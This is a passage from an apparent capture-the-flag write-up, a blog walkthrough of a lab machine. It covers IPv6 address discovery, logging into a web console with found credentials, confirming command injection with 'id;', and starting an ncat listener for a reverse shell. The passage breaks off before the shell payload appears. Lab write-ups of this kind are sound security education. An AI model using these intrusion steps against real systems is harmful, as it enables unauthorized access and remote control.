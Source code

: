 #                                                                                 #
#                   Author: Thanasis Tserpelis aka Trickster0                     #
#                                                                                 #
###################################################################################


[+] Snmpwalk found.
[+] Grabbing IPv6.
[+] Loopback -> 0000:0000:0000:0000:0000:0000:0000:0001
[+] Unique-Local -> dead:beef:0000:0000:0250:56ff:feb9:c793
[+] Link Local -> fe80:0000:0000:0000:0250:56ff:feb9:c793
root@kali:~# 
{% endhighlight %}

Now we found a Unique-Local address "dead:beef:0000:0000:0250:56ff:feb9:c793".<br>
Try to access with web browser.
![placeholder](https://inar1.github.io/public/images/2019-11-22/2019-11-20-16-27-19.png)
![placeholder](https://inar1.github.io/public/images/2019-11-22/2019-11-20-16-42-09.png)

Then, login to the console with the following password found on port 3366.<br>
However, this does not work.
{% highlight shell %}
loki:trickeryanddeceit
{% endhighlight %}

After some trying common password combination, we can find out that the following credential works.
{% highlight shell %}
administrator:trickeryanddeceit
{% endhighlight %}
![placeholder](https://inar1.github.io/public/images/2019-11-22/2019-11-20-16-48-42.png)

If we put just like "id;", we can see that the command is executed.
![placeholder](https://inar1.github.io/public/images/2019-11-22/2019-11-20-17-41-57.png)

Next, launch a netcat listener with "ncat". This is because it has an option "-6" for IPv6.
{% highlight shell %}
root@kali:~# ncat -6 -lvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234

{% endhighlight %}

Then, try to invoke a reverse shell.<br>
We can use a python reverse shell from <a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>.<br>
However, this time we have to use IPv6.
